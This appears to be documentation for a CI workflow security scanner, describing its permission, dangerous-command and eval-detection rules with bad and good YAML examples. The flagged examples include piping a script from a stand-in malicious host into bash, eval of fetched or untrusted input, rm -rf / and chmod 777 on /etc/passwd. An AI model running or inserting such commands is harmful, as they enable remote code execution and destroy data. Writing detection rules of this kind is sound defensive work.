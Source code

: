 ```yaml
permissions:
  contents: read
  packages: read

# ✅ GOOD: Specific permissions only
permissions:
  contents: read
  packages: write  # Only what's needed for this job
```

**Remediation:**
- Follow principle of least privilege
- Grant only the minimum permissions required
- Use job-level permissions instead of workflow-level when possible

#### `DANGEROUS_COMMAND`
**What it detects:** Potentially dangerous shell commands that could be exploited.

**Why it's high risk:** Dangerous commands can lead to system compromise, data exfiltration, or supply chain attacks.

**Examples:**
```yaml
# ❌ HIGH RISK: Dangerous commands
run: |
  curl -s https://malicious.com/script.sh | bash
  wget -O - https://install.sh | sh
  eval "$UNTRUSTED_INPUT"
  rm -rf /
  chmod 777 /etc/passwd

# ✅ GOOD: Safe alternatives
run: |
  curl -s https://trusted.com/script.sh > script.sh
  sha256sum script.sh | grep expected_hash
  bash script.sh
```

**Remediation:**
- Avoid piping downloads directly to shell interpreters
- Verify integrity of downloaded files
- Use specific commands instead of dangerous operations

#### `SHELL_EVAL_USAGE`
**What it detects:** Usage of `eval` in shell commands, which can execute arbitrary code.

**Why it's high risk:** `eval` can execute untrusted input as code, leading to command injection.

**Examples:**
```yaml
# ❌ HIGH RISK: Using eval
run: |
  eval "$USER_INPUT"
  eval "$(curl -s https://api.example.com/command)"

# ✅ GOOD: Direct command execution
run: |
  if [ "$USER_INPUT" = "deploy" ]; then
    ./deploy.sh
  fi
```
